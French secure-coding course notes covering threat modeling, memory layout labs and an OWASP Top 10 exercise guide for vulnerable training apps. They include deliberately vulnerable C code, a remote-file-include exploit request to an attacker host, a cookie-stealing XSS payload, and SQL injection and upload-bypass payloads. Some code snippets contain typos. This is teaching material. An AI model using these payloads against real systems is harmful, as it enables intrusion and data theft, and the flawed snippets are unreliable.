

Comprendre les menaces et les modèles d'attaques :
You can't defend what you don't understand
Exemple : Threat Modeling, STRIDE, DREAD, MITRE ATT&CK
Pourquoi comprendre les menaces ?
-
Anticiper au lieu de subir :
Comprendre les menaces, c'est penser comme un attaquant pour anticiper les vecteurs d'exploitation possibles. Cela permet de :
-
Identifier les actifs critiques avant qu'ils ne soient ciblés.
-
Réduire les surfaces d'attaque avant même la mise en production.
-
Prioriser les contrôles de sécurité selon les risques réels.
Exemple : Une application Web sans analyse de menace risque d'ignorer que des formulaires d'authentification peuvent subir du brute force ou du credential stuffing.
-
-
Intégrer la sécurité dès la conception (Shift Left) :
Comprendre les menaces permet de concevoir un logiciel résilient dès les premières phases du SDLC (Software Development Life Cycle).
-
Les architectes peuvent modéliser les menaces via DFD + STRIDE.
-
Les développeurs peuvent intégrer des contre-mesures directement dans le code.
-
Les testeurs peuvent dériver des scénarios de test à partir des menaces connues.
-
Outils utilisés :
OWASP Threat Dragon, Microsoft Threat Modeling Tool, IriusRisk
MITRE ATT&CK (pour mapping des TTP)
STRIDE est un modèle développé par Microsoft pour classer les types de menaces.
Lettre Menace Description S Spoofing Usurpation d'identité T Tampering Altération des données R Repudiation Négation d'actions I Information Disclosure Divulgation d'informations D Denial of Service Déni de service E Elevation of Privilege Élévation de privilèges MITRE ATT&CK est une base de connaissances décrivant les techniques d'attaques réelles utilisées par des attaquants observés dans la nature.
La modélisation des menaces (Threat Modeling) vise à répondre à quatre questions essentielles :
-
Qu'est-ce que je protège ? (actifs, données, systèmes)
-
Contre qui ? (attaquant interne, externe, opportuniste, APT)
-
Comment peut-on m'attaquer ? (vecteurs d'attaque)
-
Quelles protections mettre en place ?
Elle permet une sécurité proactive, et non réactive.
C'est une méthode structurée permettant :
-
d'identifier les menaces
-
d'analyser les failles potentielles
-
de prioriser les risques
-
de concevoir des contre-mesures adaptées
Elle est utilisée avant, pendant et après la conception d'un système.
DREAD est un modèle de scoring permetant d'évaluer la gravité d'une menace.
Critère Signification Damage Impact potentiel Reproducibility Facilité de reproduction Exploitability Facilité d'exploitation Affected users Nombre d'utilisateurs impactés Discoverability Facilité de découverte. Chaque critère est noté (par exemple : 1 à 10).
DREAD répond à la question :
Quelle menace est la plus critique ?
Il aide à prioriser les actions de sécurité. -
-
Améliorer la priorisation et la gestion des risques :
Comprendre les menaces aide à hiérarchiser les efforts de sécurité.
Toutes les vulnérabilités ne se valent pas : une faille de configuration mineure n'a pas le même impact qu'une injection RCE.
Exemple pratique :
Vulnérabilité Impact Probabilité Risque global XSS sur page interne Moyen Faible Moyen Insecure Deserialization Élevé Moyen Élevé -
Favoriser la communication inter-équipes :
Les modèles de menaces servent de langage commun entre Développeurs, Architectes, DevOps/SecOps et Auditeurs et RSSI
Cela favorise la culture sécurité et réduit les malentendus : tout le monde parle en termes de menace, impact, scénario d'attaque, contre-mesure.
-
Se conformer aux normes et référentiels :
Les frameworks exigent une compréhension claire des menaces :
-
ISO 27034 (Application Security).
-
NIST SSDF (Secure Software Development Framework).
-
OWASP SAMM (Threat Assessment).
-
NIS2 / ENISA Guidelines (Supply chain threat modeling).
Sans modélisation de menace, il est impossible de démontrer la conformité à ces cadres.
-
-
Réduire les coûts de correction :
Une menace identifiée tôt coûte 30 à 100 fois moins cher à corriger qu'en production.
Exemple :
Correction d'un XSS détecté à la conception → 100€
Correction après compromission → 10000€ +

SRC : IBM System Science Institute : Relative Cost of Fixing Defects
Typologie des menaces :
-
Attaques logicielles : injection, corruption mémoire, logique métier
-
Attaques infrastructurelles : réseau, système, container
-
Attaques supply chain / open source : Exemples réels : SolarWinds, Log4Shell, XZ backdoor
Définitions clés :
| Élément | Définition | Exemple concret |
|---|---|---|
| Actif | Ce qu'on cherche à protéger (donnée, service, identité, code) | Base de données clients |
| Menace | Intention ou événement malveillant exploitant une faille | Attaquant injectant du code SQL |
| Vulnérabilité | Faiblesse technique ou logique exploitable | Entrée utilisateur non filtrée |
| Impact | Conséquence si la menace se réalise | Vol de données, compromission |
| Risque | Combinaison probabilité x impact | Risque élevé de fuite de données |

Common Weakness Enumeration - Top 25 -2024 :
Failles et vulnérabilités des logiciels :
Les failles critiques de sécurité des applications web comprennent 5 failles liées à un code non sécurisé :
-
Entrées non validées (en C)
-
Cross-site scripting
-
Buffer overflow (en C)
-
Failles d'injection
-
Gestion incorrecte des erreurs
Ces failles sont le résultat d'une vérification et d'une validation insuffisante des données et des codes d'erreur dans les programmes.
La prise de conscience de ces problèmes est une première étape essentielle pour écrire un code plus sécurisé.
Il est important de souligner la nécessité pour les développeurs de se pencher sur ces failles préoccuppantes et connues.
Faille de sécurité :
Chaque faille représente un écart entre l'intention du développeur et le comportement réel du logiciel face à un attaquant.
Chaque faille représente un écart entre l'intention du développeur et le comportement réel du logiciel face à un attaquant. Selon le site www.cvedetails.com en 2024, le total des failles recensées était de 40303.

En 2024, le total des failles recensées était de 40303, dont 7443 XSS et 2645 SQLi. Début octobre 2025, on recense 36705 failles et, à la fin de l'année 2025, on projette un nombre de failles proches de 50000.

Réduire les vulnérabilités logicielles :
Le framework NIST SSDF présente une série d'approches visant à réduire le nombre de vulnérabilités logicielles (voir NIST-SP 800-218).
Il recommande :
-
D'empêcher les vulnérabilités avant qu'elles ne surviennent en utilisant des méthodes améliorées pour spécifier et développer les logiciels.
-
De détecter les vulnérabilités avant qu'elles ne puissent être exploitées en utilisant des techniques de test plus efficaces.
-
De réduire l'impact des vulnérabilités en développant des architectures logicielles plus résilientes.
NIST-SP 800-218 :
Tableau NIST-SP 800-218 (en Excel)
Qualité et fiabilité des logiciels :
-
Éviter toute défaillance accidentelle résultant d'une entrée théoriquement aléatoire et imprévue, ou d'une imprévue, ou d'une intéraction non contrôlée avec le système, ou utiliser un code incorrect (logique incorrecte).
-
Améliorer à l'aide d'un design structuré et de tests afin d'identifier et éliminer autant de bugs que possible dans un programme.
-
La préoccupation ne porte pas sur le nombre de bugs, mais sur la fréquence à laquelle ils se déclenchent.
Failles et vulnérabilités :
-
L'attaquant cible spécifiquement les bugs qui provoquent une défaillance pouvant être exploitée (par l'attaquant).
-
Déclenchées par des entrées qui diffèrent considérablement de ce qui est habituellement attendues.
-
Peu susceptible d'être identifié par les méthodes d'analyse courantes.
Programmation défensive :
-
Concevoir et mettre en oeuvre des logiciels de manière à ce qu'ils continuent de fonctionner même lorsqu'ils sont attaqués.
-
Exige de prêter attention à tous les aspects de l'exécution du programme, à l'environnement et au type de données qu'il traite.
-
Le logiciel est capable de détecter les conditions erronées résultant d'une attaque.
-
Également appelé "programmation sécurisée".
-
La règle d'or est de ne jamais présumer de quoi que ce soit, de vérifier toutes les hypothèses et de gérer tous les états d'erreur possibles.
-
Les programmeurs émettent souvent des hypothèses sur le type d'entrées qu'un programme recevra et l'environnement dans lequel il s'exécutera.
Ces hypothèses doivent être validées par le programme et toutes les défaillances potentielles doivent être gérées avec sécurité.
-
Nécissite un changement de mentalité par rapport aux pratiques de programmation traditionnelles.
Les programmeurs doivent comprendre comment les défaillances peuvent se produire et les mesures à prendre pour réduire le risque qu'elles se produisent dans leurs programmes.
-
Danger !!! Les conflits avec les pressions commerciales visant à réduire au maximum les délais de développement afin de maximiser l'avantage concurrentiel.
Environnement d'un programme :
-
Pratique !
-
Préparation d'un environnement de test !
-
Chaîne de compilation en C.
Lab 1 : Environnement d'exécution :
Objectif : comprendre comment un programme vit en mémoire.
Qu'est-ce qu'un environnement d'exécution ?
C'est un ensemble des ressources allouées à un programme (mémoire, registres CPU, pile, tas...).
Vue d'ensemble de la mémoire d'un processus :

Les registres CPU :

Vue d'ensemble de la mémoire d'un processus :
Le segment de code :
-
Contient les instructions compilées du programme.
-
En lecture seule.
-
Exemple : sections ELF (.text, .rodata).
-
Exercice : compiler et vérifier les sections dans un exécutable (readelf, objdump).
Les segments de données (Data & BSS) :
-
Data : variables globales initialisées.
-
BSS : variables non initialisées.
-
Exemple C :
int global_init = 10; // Data int global_uninit; // BSS
Le tas (Heap) :
-
Zone mémoire dynamique (malloc, calloc, new...).
-
Croît vers le haut.
-
Vulnérabilités : Heap overflow, Use-After-Free, Double Free.
La pile (Stack) :
-
Stocke les variables locales et le contexte d'appel.
-
Croît vers le bas.
-
Structure d'une stack frame :

Les registres CPU :
-
EIP/RIP : pointeur d'instruction
-
ESP/RSP : pointeur de pile
-
EBP/RBP : base frame
-
EAX, EBX... : registres de travail
-
Exemple ASM :

push ebp mov ebp, esp sub esp, 0x10 mov eax, [ebp+8] leave ret
Stack vs Heap :
-
Stack : allocation auto, rapide, taille limitée, vulnérable aux overflows.
-
Heap : allocation dynamique, grande, lente, vulnérable aux use-after-free.
Mécanismes de protection mémoire :
-
ASLR : randomisation des adresses
-
DEP/NX bit : empêche exécution sur pile/tas.
-
Stack canaries : détecte les écrasements de pile.
Étude pratique :
#include <stdio.h>
#include <stdlib.h>
int global = 5;
int main() {
int local = 10;
int *p = malloc(sizeof(int));
*p = 20;
printf("%p %p %p\n", &global, &local, p);
free(p);
}Exemple pratique : sections mémoire d'un programme C :
Voici un exemple simple en C illustrant les différentes sections mémoire :
#include <stdio.h>
#include <stdlib.h>
/*gcc -o env_mem_demo env_mem_demo.c
./env_mem_demo */
int global_init = 42; // Segment Data
int global_uninit; // Segment BSS
void function_demo() {
int local_var = 5; // Stack
int *heap_var = malloc(sizeof(int));
*heap_var = 99; // Heap
printf("Adresse Code (function_demo) : %p\n", function_demo);
printf("Adresse Data (global_init) : %p\n", &global_init);
printf("Adresse BSS (global_uninit) : %p\n", &global_uninit);
printf("Adresse Stack (local_var) : %p\n", &local_var);
printf("Adresse Heap (*heap_var) : %p\n", heap_var);
free(heap_var);
}
int main() {
function_demo();
return 0;
}Analyse et visualisation mémoire :
-
Exemple de sortie de commande :
$ size env_mem_demo text data bss dec hex filename 1024 12 8 1044 414 env_mem_demo`.text` : code exécutable (instructions)
`.data` : variables globales initialisées
`.bss` : variables globales non initialisées
-
Heap : mémoire dynamique via malloc()
-
Stack : variables locales et adresses de retour
Conclusion :
-
L'environnement d'exécution est la base de la sécurité mémoire.
-
Comprendre le CPU, la pile et le tas.
-
Indispensable pour debugging, reverse engineering et exploitation.
Les différents fichiers du labo 1 sont :
-
Le fichier `env_mem_demo.c` :
#include <stdio.h> #include <stdlib.h> /* gcc -o env_mem_demo env_mem_demo.c ./env_mem_demo */ int global_init = 42; // Segment Data int global_uninit; // Segment BSS void function_demo() { int local_var = 5; // Stack int *heap_var = malloc(sizeof(int)); *heap_var = 99; // Heap printf("Adresse Code (function_demo) : %p\n", function_demo); printf("Adresse Data (global_init) : %p\n", &global_init); printf("Adresse BSS (global_uninit) : %p\n", &global_uninit); printf("Adresse Stack (local_var) : %p\n", &local_var); printf("Adresse Heap (*heap_var) : %p\n", heap_var); free(heap_var); } int main() { function_demo(); return 0; } -
Le fichier `banner.c` :
#include <stdio.h> #include <string.h> void print_banner(const char *name) { char buffer[16]; strcpy(buffer, name); // vulnérable printf("Hello, %s", buffer); } int main(int argc, char *argv[]) { int secret = 0x41424344; print_banner(argv[1]); printf("Secret after call: 0x%X", secret); } -
Le fichier `mem_layout_demo.c` :
/* mem_layout_demo.c * Petit programme pédagogique pour afficher adresses mémoire * (text / rodata / data / bss / heap / stack / adresses de fonctions). * * Compilez avec : gcc -g -O0 mem_layout_demo.c -o mem_layout_demo * (l'option -g permet l'inspection avec gdb ; -O0 évite les optimisations qui * déplaceraient ou supprimeraient certaines variables locales). */ #include <stdio.h> #include <stdlib.h> /* Segments globaux */ int initialized_global = 0x11223344; /* segment .data (initialisé) */ int uninitialized_global; /* segment .bss (non-initialisé) */ const char *const_string = "Hello, readonly data (rodata)"; void callee(int depth); /* fonction utile pour afficher adresses de fonctions */ void dummy_function(void) { /* vide */ } int main(void) { int local_main = 0xdeadbeef; /* variable locale (stack) */ void *heap_ptr = malloc(64); /* alloue sur le heap */ printf("=== Disposition mémoire (exemple) ===\n\n"); /* adresses du segment code / fonctions */ printf("Adresse de la fonction main() : %p\n", (void*)main); printf("Adresse de la fonction callee() : %p\n", (void*)callee); printf("Adresse de dummy_function() : %p\n", (void*)dummy_function); /* rodata / data / bss */ printf("\nSegments statiques:\n"); printf(" Adresse de la chaîne (rodata) : %p -> \"%s\"\n", (void*)const_string, const_string); printf(" Adresse initialized_global (.data) : %p -> 0x%X\n", (void*)&initialized_global, initialized_global); printf(" Adresse uninitialized_global (.bss) : %p -> 0x%X\n", (void*)&uninitialized_global, uninitialized_global); /* heap et stack */ printf("\nHeap & Stack:\n"); printf(" Adresse heap (malloc 64 bytes) : %p\n", heap_ptr); printf(" Adresse variable locale main (stack): %p -> 0x%X\n", (void*)&local_main, local_main); /* adresse retour approximative (non portable mais pédagogique) */ void *ret_addr = __builtin_return_address(0); printf("\nAdresse de retour (valeur fournie par __builtin_return_address(0)) : %p\n", ret_addr); /* appeler callee qui fera afficher adresses supplémentaires (empilement) */ callee(1); free(heap_ptr); return 0; } void callee(int depth) { int local_callee = 0xfeedface; printf("\n-- dans callee(depth=%d) --\n", depth); printf(" Adresse local callee (stack) : %p -> 0x%X\n", (void*)&local_callee, local_callee); printf(" Adresse return (callee) via builtin: %p\n", __builtin_return_address(0)); if (depth < 2) { /* récursion contrôlée pour montrer plusieurs frames */ callee(depth + 1); } } -
Le fichier `vuln.c` :
#include <stdio.h> #include <string.h> void secret() { printf("Bravo ! - vous avez decouvert secret()!\n"); fflush(stdout); } void vuln() { char buf[16]; printf("Tapez quelque chose:\n"); fgets(buf, 512, stdin); // vulnérabilité intentionelle overflow printf("Vous avez introduit : %s\n", buf); } int main() { setvbuf(stdout, NULL, _IONBF, 0); vuln(); return 0; } -
Le fichier `lab1_buffer_overflow.md` :
# Lab 1 — Buffer Overflow (C) ## Objectifs - Comprendre la pile, ret address overwrite ## Environnement - Compiler: `gcc vuln.c -o vuln -fno-stack-protector -z execstack -no-pie` # -z execstack est une option du linker ELF (Linux) qui demande une pile exécutable. # Sous Windows (format PE) la notion est différente et lld/ld du toolchain MinGW ne reconnaît pas le-z. - Outils: gdb, pwntools ## Étapes (résumé) 1. Trouver offset (pattern_create/pattern_offset) 2. Overwrite retour avec adresse de `secret()` 3. Vérifier protections (ASLR) et disabled protections pour la démo
Security by Design :
La sécurité et la fiabilité sont des objectifs de conception courants dans la plupart des disciplines d'ingénierie.
Ces dernières années, des efforts croissants ont été déployés pour améliorer les processus de développement logiciel sécurisé.
La Software Assurance Forum for Excellence in Code (SAFECode) élabore des publications décrivant les meilleures pratiques de l'industrie en matière d'assurance logicielle et fournissant des conseils pratiques pour la mise en oeuvre de méthodes éprouvées de développement logiciel sécurisé.
Traitement des entrées du programme :

Taille des entrées & Débordement de tampon :
Les programmeurs font souvent des hypothèses sur la taille maximale attendue des entrées.
La taille allouée au tampon n'est pas confirmée/validée.
Il en résulte un débordement de tampon (buffer offervlow).
Les tests peuvent ne pas identifier la vulnérabilité.
Les entrées de test sont peu susceptibles d'inclure des entrées suffisamment volumineuses pour déclencher le débordement.
Le safe coding traite toutes les entrées comme dangereuses.
Interprétation des entrées du logiciel :
Les entrées du programme peuvent être binaires ou textuelles. L'interprétation binaire dépend du codage et est généralement spécifique à l'application.
Il existe une variété croissante de jeux de caractères utilisés. Il convient de déterminer avec soin quel jeu est utilisé et quels caractères sont lus.
Un défaut de validation peut entraîner une vulnérabilité exploitable.
Plusieurs vulnérabilités "Improper input validaton" sont recensées.
Attaques par injection :
Ce sont des attaques liées à un traitement incorrect des données d'entrée, en particulier lorsque les données d'entrée du programme peuvent accidentellement ou délibérément influencer le déroulement de l'exécution du programme.
Les attaques par injection se produisent le plus souventdans les langages de scripts.
Elles sont encouragées par la réutilisation d'autres programmes et utilitaires système lorsque cela est possible, afin de réduire l'effort de codage.
Interaction avec le système GCI (finger : `index.html`) :

<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="UTF-8">
<title>User Info - Finger CGI</title>
<style>
body { font-family: Arial, sans-serif; margin: 2em; background: #f5f5f5; }
form { background: #fff; padding: 1em; border-radius: 8px; width: 300px; box-shadow: 0 2px 5px rgba(0,0,0,0.1); }
input[type="text"] { width: 100%; padding: .5em; margin-bottom: 1em; }
input[type="submit"] { padding: .5em 1em; cursor: pointer; background: #0078D4; color: white; border: none; border-radius: 4px; }
table { margin-top: 2em; border-collapse: collapse; width: 100%; }
td, th { border: 1px solid #ccc; padding: .5em; text-align: left; }
</style>
</head>
<body>
<h2>Finger CGI Lookup</h2>
<form action="/cgi-bin/finger_info.py" method="get">
<label for="user">Enter username:</label>
<input type="text" name="user" id="user" required>
<input type="submit" value="Get Info">
</form>
</body>
</html>Voici le contenu du fichier `finger_info.py` :

#!/usr/bin/env python3
import cgi
import subprocess
import html
print("Content-type: text/html\n")
form = cgi.FieldStorage()
user = form.getfirst("user", "").strip()
print("<html><head><title>Finger Result</title>")
print("<style>body{font-family:Arial;} table{border-collapse:collapse;} td,th{border:1px solid #ccc;padding:4px;}</style>")
print("</head><body>")
print(f"<h2>Finger information for: {html.escape(user)}</h2>")
if not user:
print("<p>No username provided.</p>")
else:
try:
# Exécuter finger -l user
result = subprocess.run(["finger", "-l" user], capture_output=True, text=True, timeout=3)
output = html.escape(result.stdout.strip())
if not output:
print("<p><b>No information found for this user.</b></p>")
else:
print("<pre style='background:#f5f5f5;padding:10px;border-radius:5px;'>" + output + "</pre>")
except Exception as e:
print(f"<p>Error executing finger: {html.escape(str(e))}</p>")
print("<p><a href='/index.html'>Back</a></p>")
print("</body></html>")

Exemple de SQL Injection :
$name = $_REQUEST['name'];
$query = "SELECT * FROM suppliers WHERE name = '" . $name . "';";
$result = mysql_query($query);Le code ci-dessus est un code PHP vulnérable, alors que le code suivant est un code PHP sûr.
$name = *_REQUEST['name'];
$query = "SELECT * FROM suppliers WHERE name = '" . mysql_real_escape_string($name) . "';";
$result = mysql_query($query);Exemple d'injection de code :
<?php
include $path . 'functions.php';
include $path . 'data/prefs.php';
...Ce code est un code PHP vulnérable.
GET /calendar/embed/day.php?path=http://hacker.web.site/hack.txt?&cmd=lsCela est une attaque HTTP (requête d'exploit).
Attaques de type Cross Site Scripting (XSS) :
Les attaques XSS sont des attaques dans lesquelles les données fournies par un utilisateur sont ensuite transmises à un autre utilisateur.
Elles sont fréquentes dans les applications Web scriptées :
-
La vulnérabilité réside dans l'inclusion de code script dans le contenu HTML.
-
Ce code script peut avoir besoin d'accéder à des données associées à d'autres pages.
-
Les navigateurs imposent des contrôles de sécurité et limitent l'accès aux données aux pages provenant d'un même site.
Cela exploite l'hypothèse selon laquelle tout le contenu d'un site est également fiable et peut donc interagir avecd'autres contenus du site.
La vulnérabilité de type reflected XSS est :
-
L'attaquant inclut le contenu du script malveilant dans les données fournies à un site.
Exemple de XSS :
Thanks for this information, its great!
<script>document.location = 'http://example.com/cookie.cgi?' + document.cookie</script>Ceci est du XSS en clair (plain text).
Thanks for this information, its great!
<script>
document.
location =
'http://
example.com
/cookie.cgi?'
+ document.cookie;
</script>Cela est du XSS encodé.
Exercices sur les injections (CGI, SQL, Code, XSS) :
-
Pratique !
-
Images web (vulnérable).
-
Introduction OWASP (Open Web Application Security Project).
GCC :
Pour utiliser GCC avec MinGW, il faut d'abord installer Visual Studio Code et installer l'extension C/C++ pour VS Code.
Ensuite, vous devez télécharger et installer la dernière version du logiciel MSYS2. Notez que MSYS2 requiert la version 64 bits de Windows 8.1 ou plus récent.
Une fois l'installation finie, dans le nouveau terminal, installer la toolchain MinGW-w64 en exécutant la commande suivante :
pacman -S --needed base-devel mingw-w64-ucrt-x86_64-toolchainIl faut accepter la sélection par défaut de paquets et procéder à l'installation.
Troisièmement, il faut ajouter le répertoire bin de MinGW-w64 dans la variable d'environnement PATH Windows en ajoutant C:\msys64\ucrt64\bin.
Enfin, on doit vérifier que les outils MinGW-w64 sont correctement installés et disponibles avec les commandes suivants dans un nouveau terminal :
gcc --versionLe GCC (GNU Compiler Collection) est une suite de compilateurs open source créée par le projet GNU.
C'est l'un des outils les plus utiisés pour compiler du code source (langage C, C++, Objective-C, Ada, Fortran, Go, etc.) en binaire exécutable (machine code).
g++ --versiong++ est la version C++ du compilateur GCC. En réalité, g++ fait partie de GCC, mais il active automatiquement la compilation C++ et le linkage des bibliothèques standard C++ (libstdc++).
gdb --versionLe GDB (GNu Debugger) est un débogueur utilisé pour analyser, corriger, et comprendrel'exécution d'un programme C ou C++.
Voici les différentes fonctionnalités à l'intérieur de GDB :
| Commandes | Explications |
|---|---|
| break main | Met un point d'arrêt à main() |
| run | Lance le programme |
| step | Avance une instruction |
| print variable | Affiche la valeur d'une variable |
| continue | Continue jusqu'au prochain breakpoint |
| quit | Quitte |
Pour accéder à l'aide de GCC, il y a plusieurs méthodes possibles :
-
man gccC'est la vraie documentation complète (le "manuel Unix"). Mais elle est trop longue et détaillée, souvent trop verbeuse pour un usage rapide.
Il faut avoir les pages de manuel installées (sudo apt install manpages-dev sur Debian/Ubuntu par exemple).
-
gcc --helpCette commande affiche les options les plus courantes, divisées par sections (linking, warnings, optimization...).
C'est beaucoup plus lisible que man gcc pour un usage rapide.
-
gcc -Q --help=optimizersCette commande liste toutes les optimisations possibles (activées ou non selon ton niveau -o).
-
info gccCette commande ouvre la documentation GNU "info", structurée et plus navigable que man.
Les principales options de GCC lors d'une compilation basique sont :
| Option | Description |
|---|---|
| -c | Compile uniquement en fichier objet (.o), sans édition de liens |
| -o <fichier> | Spécifie le nom de sortie |
| -g | Génère les symboles de débogage (pour gdb, valgrind, etc.) |
| -Wall | Active un grand nombre d'avertissements |
| -Wextra | Active encore plus d'avertissements |
| -std=c11 | Force une norme précise du langage C |
| -pedantic | Vérifie le respect strict de la norme |
Les options d'optimisation -O sont :
| Option | Description |
|---|---|
| -O0 (lettre O + chiffre zéro) |
Aucune optimisation. → Chaque instruction du code C correspond presque directement à une instruction machine. ✓ Idéal pour le débogage. |
| -O1 | Optimisations légères (élimine du code inutile, réduit les sauts inutiles). |
| -O2 |
Optimisations plus poussées mais sûres. → Par défaut pour la plupart des compilations standards. |
| -O3 |
Optimisations agressives (déroulage de boucles, inlining forcé, etc.). ⚠ Peut rendre le débogage plus difficile. |
| -Os | Optimise pour la taille du binaire plutôt que la vitesse. |
| -Ofast |
Active -O3 + certaines optimisations non standards (peut ignorer des règles IEEE sur les floats). |
OWASP TOP 10 Lab Setup :
Objectif :
Mettre en place un laboratoire pratique pour comprendre, exploiter et corriger les vulnérabilités les plus courantes selon l'OWASP Top 10.
Prérequis :
Outils nécessaires :
-
OS : Linux / Mac OS / Windows WSL2
-
Docker et Docker Compose
-
Navigateur : Firefox / Chrome
-
Éditeur : VSCode ou PyCharm
-
(Optionnel) Burp Suite Community Edition
Architecture du Lab :
Chaque vulnérabilité est isolée dans un container ou un dossier distinct.

Environements vulnérables:
-
DVWA - Damn Vulnerable Web Application :
-
Cible : Injection SQL, XSS, File Upload, CSRF, etc.
-
URL : http://localhost:8080
-
Docker run :
docker run -d -p 8080:80 --name dvwa vulnerables/web-dvwa
-
-
OWASP Juice Shop :
-
Cible : Broken Auth, Sensitive Data Exposure, Injection, etc.
-
URL : http://localhost:3000
-
Docker run :
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop
-
-
WebGoat + WebWolf :
-
Cible : Advanced OWASP lessons (Java, API, Auth, Crypto)
-
URL : http://localhost:8081/WebGoat
-
Docker run :
docker run -d -p 8081:8080 --name webgoat webgoat/webgoat
-
-
Multillidae II :
-
Cible : OWASP Top 10 complet + API + vulnérabilités business logic
-
URL : http://localhost:8090
-
Docker run :
docker run -d -p 8090:80 --name multillidae citizenstig/nowasp
-
Docker Compose simplifié :
Crée un fichier docker-compose.yml :
version: '3'
services:
dvwa:
image: vulnerables/web-dvwa
ports:
- "8080:80"
juice-shop:
image: bkimminich/juice-shop
ports:
- "3000:3000"
webgoat:
image: webgoat/webgoat
ports:
- "8081:8080"
mutillidae:
image: citizenstig/nowasp
ports:
- "8090:80"Lancer :
docker compose up -dCette commande permet de démarrer une application multi-conteneurs Docker définie dans un fichier de configuration appelé docker-compose.yml.
L'option up permet de :
-
Créer les conteneurs si nécessaire
-
Télécharger les images si elles n'existent pas localement
-
Créer les réseaux Docker
-
Monter les volumes
-
Démarrer tous les services définis dans le fichier docker-compose.yml
Schénarios de pratiques OWASP Top 10 :
| OWASP Top 10 | Application | Exemple d'exercice |
|---|---|---|
| A01 - Broken Access Control | Juice Shop | Accès à un profil admin via IDOR |
| A02 - Cryptographic Failures | WebGoat | Mauvais stockage de mot de passe |
| A03 - Injection | DVWA | Injection SQL et Command Injection |
| A04 - Insecure Design | Mutillidae | Mauvaise logique d'authentification |
| A05 - Security Misconfiguration | DVWA | Exposition des pages d'admin |
| A06 - Vulnerable & Outdated Components | WebGoat | Exploitation de dépendances |
| A07 - Identification & Auth Failures | Juice Shop | Session hijacking |
| A08 - Software & Data Integrity Failures | WebGoat | Manipulation de code signé |
| A09 - Logging & Monitoring Failures | Mutillidae | Attaques non détectées |
| A10 - SSRF | Juice Shop / DVWA | Accès à ressource interne |
Documentation pour les étudiants :
GUIDE.md (avec toutes les sections) :
# OWASP Top 10 - Lab d'Exercices (JuiceShop, DVWA, WebGoat)
Ce document fournit un ensemble d'exercices pratiques couvrant chaque catégorie de l’**OWASP Top 10**, basés sur trois plateformes vulnérables : **OWASP Juice Shop**, **DVWA** et **OWASP WebGoat**.
Chaque exercice inclut :
- Objectif
- Étapes à réaliser
- Correction / Payloads
---
# Pré-requis
## Plateformes utilisées
- **OWASP Juice Shop** : https://owasp.org/www-project-juice-shop/
- **DVWA** (Damn Vulnerable Web App)
- **WebGoat** : https://owasp.org/www-project-webgoat/
## Outils recommandés
- Burp Suite Community
- Browser DevTools
- Hydra / wfuzz / curl
- Hashcat / John The Ripper
- Docker (optionnel)
---
# A01 - Broken Access Control
## Exercice 1 - Juice Shop : Accéder au profil d'un autre utilisateur
**Objectif :** Tester une IDOR (Insecure Direct Object Reference)
### Étapes
1. Se connecter avec un compte normal.
2. Ouvrir DevTools → onglet Network.
3. Observer la requête : `/rest/user/whoami`.
4. Modifier l'ID utilisateur dans la requête.
### Correction
```
GET /rest/user/1
```
Renvoie le profil admin → contrôle d'accès cassé.
---
## Exercice 2 - DVWA : IDOR via paramètre GET
**Objectif :** Manipuler un paramètre non protégé.
### Payload
```
http://dvwa/vulnerabilities/view_profile.php?user_id=3
```
→ Accès direct au profil.
---
# A02 - Cryptographic Failures
## WebGoat - Crack de hash MD5
**Objectif :** Comprendre faiblesse des algorithmes dépréciés.
### Étapes
1. Dans *Hashing → Password Cracking*, récupérer le hash.
2. Utiliser Hashcat ou CrackStation.
### Correction
```
5f4dcc3b5aa765d61d8327deb882cf99 → password
```
---
# A03 - Injection
## Exercice 1 - DVWA SQL Injection (Low)
**Objectif :** Contourner une requête SQL vulnérable.
### Payload
```
' OR 1 = 1 --
```
→ Affiche tous les utilisateurs.
---
## Exercice 2 - Juice Shop : Bypass Login
### Payload
```
' OR 1 = 1 --
```
→ Connexion admin.
---
## Exercice 3 - WebGoat SQL Injection Avancée
### Payload
```
' UNION SELECT null, cc_number, null, null FROM creditcard --
```
→ Exfiltration du numéro de carte.
---
# A04 - Insecure Design
## WebGoat - Manipulation de logique applicative
**Objectif :** Modifier un prix côté client.
### Étapes
1. Ouvrir DevTools.
2. Modifier un champ prix :
```html
<input type="number" value="-99">
```
3. Soumettre la commande.
### Résultat
Achat validé → absence de validation serveur.
---
# A05 - Security Misconfiguration
## DVWA - Accès à phpinfo()
**Objectif :** Détecter exposition d'informations sensibles.
### Étapes
Accéder :
```
http://dvwa/phpinfo.php
```
### Risques
- Version PHP
- Modules actifs
- Chemins système
---
# A06 - Vulnerable & Outdated Components
## Juice Shop - Packages obsolètes accessibles
**Objectif :** Identifier composants vulnérables.
### Étapes
Accéder au fichier exposé :
```
/ftp/package.json.bak
```
→ Liste de dépendances vulnérables → flag.
---
# A07 - Identification & Authentication Failures
## Juice Shop - Bruteforce du compte admin
### Info utile
```
admin@juice-sh.op
```
### Action
Lancer une attaque Hydra / Burp Intruder.
### Résultat
Mot de passe faible :
```
admin123
```
→ Connexion admin.
---
# A08 - Software & Data Integrity Failures
## WebGoat - Upload malveillant
### Étapes
1. Upload `shell.php.jpg`.
2. Intercepter avec Burp.
3. Modifier Content-Type en `image/jpeg`.
### Résultat
L'exécution du code serveur est acceptée.
---
# A09 - Security Logging & Monitoring Failures
## Juice Shop - Détection XSS dans logs
### Étapes
Accéder à :
```
/support/logs
```
### Résultat
Entrée log visible :
```
<script>alert(1)</script>
```
→ Attaque non filtrée.
---
# A10 - SSRF
## WebGoat - Lecture de fichiers internes
### Payload
```
